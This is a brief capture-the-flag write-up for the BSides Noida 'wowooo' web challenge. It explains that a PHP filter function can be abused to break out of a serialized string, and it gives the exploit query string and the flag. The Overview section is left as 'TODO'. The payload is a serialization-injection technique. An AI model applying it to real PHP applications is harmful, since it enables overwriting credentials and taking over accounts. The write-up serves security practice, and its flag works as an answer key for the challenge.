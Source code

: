 # BSides Noida CTF - wowooo (37 solves)

> it's really interesting
Note : Bruteforce is not required.

**Category**: web

**Given**: 
- [index.php](handouts/index.php): webpage source code (with query parameter `debug=true`)

**Requirements**: N/A

**Solution Files**: [solve.py](solve.py)

**TL;DR**: Use the filter function to inject data outside the serialized string and overwrite the password.

### Overview
TODO

### Exploit
```
?name=flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag%22;i:1;s:19:%22V13tN4m_number_one%20%22;};s:4:%22ssss
```

**Flag**: BSNoida{3z_ch4all_46481684185_!!!!!!@!}